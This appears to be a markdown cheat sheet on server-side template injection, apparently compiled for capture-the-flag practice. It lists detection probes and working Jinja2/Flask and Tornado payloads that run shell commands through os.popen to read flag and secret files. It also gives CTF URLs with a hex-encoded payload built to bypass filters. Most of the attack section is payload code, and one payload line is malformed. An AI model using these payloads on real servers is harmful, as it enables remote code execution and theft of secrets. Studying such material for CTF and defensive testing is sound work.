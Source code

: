 ### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server (Server-side).

Testing - `${{<%[%'"}}%\` use to check if any error occurs.
If an exception is raised, this indicates that the injected template syntax is potentially being interpreted by the server in some way. This is one sign that a vulnerability to server-side template injection may exist.

![image](https://github.com/user-attachments/assets/4408a527-a6be-4540-bdee-8bc9f419753f)

[Portswigger](https://portswigger.net/web-security/server-side-template-injection/exploiting)  

Example of a vulnerability : 

```py
{{5*5}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

---

#### Flask payload for Jinja2 : 
#### Config objects

The current configuration object : flask.config

Start with payload : `{{config.items()}}`
Then inject the second payload : `{{config.from_object('os')}}


```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()}}
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}
{{config}}
{%with a="Hello World"%}
{%print(a)%}
{%endwith}
{%with a=request|attr("application")|attr("__globals__")|attr(__getitem__)(__builtins__)|attr__getitem__)(__import__)("os")|attr("popen")("cat${IFS}flag.txt")|attr("read")()%}
```

---

#### Tornado payload

```py
{%import%20os%}{{os.popen("ls").read() }}
{% import os %}{{ os.popen("ls").read() }}
{{globals()}}
{% import os %}{{os.getcwd()}}
{% import os %}{{os.listdir(/home/tornado)}}
{% import os %}{{os.system(r"lookatme.txt")}}
{{help(object name)}}

```

```py
ctf payloads

http://chall.battlectf.online:8085/?capital={{%20().__class__.__base__.__subclasses__()[354](%22cat%20flag.txt%22,%20shell=True,%20stdout=-1).communicate()[0].strip()}}

SSTI with bypass
http://chall.battlectf.online:8086/?capital={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f%27)(%27os%27)|attr(%27\x70\x6f\x70\x65\x6e%27)(%27cat%20flag\x2etxt%27)|attr(%27read%27)()}}
```
